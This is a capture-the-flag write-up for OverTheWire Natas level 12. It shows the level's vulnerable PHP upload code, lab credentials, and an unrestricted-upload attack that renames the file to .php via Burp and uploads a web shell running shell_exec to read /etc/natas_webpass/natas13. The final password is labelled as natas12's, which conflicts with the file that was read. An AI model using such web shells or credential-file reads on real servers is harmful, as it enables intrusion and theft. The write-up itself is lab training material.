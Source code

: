 # Natas Level 12
The ***URL*** to which you need to connect is *http://natas12.natas.labs.overthewire.org*. The ***username*** is *natas12* and the ***password*** is *EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3*. 

Lets check the [viewsource](http://natas12.natas.labs.overthewire.org/index-source.html) link.
```php
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
By analysing the php script we can inject some malicious scipts, But we've to use burp to change the extension :
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
Lets upload script.php
```php
<? echo shell_exec('pwd'); ?>
# /var/www/natas/natas12/upload
```
```php
# You can use find command to find the password for this level but I expect that they are in the same dir
<? echo shell_exec('cat /etc/natas_webpass/natas13'); ?>
```

![Capture](https://github.com/Reda-BELHAJ/OverTheWire/blob/main/Natas/Captures/Capture5.PNG)

```
The password for natas12 is jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```
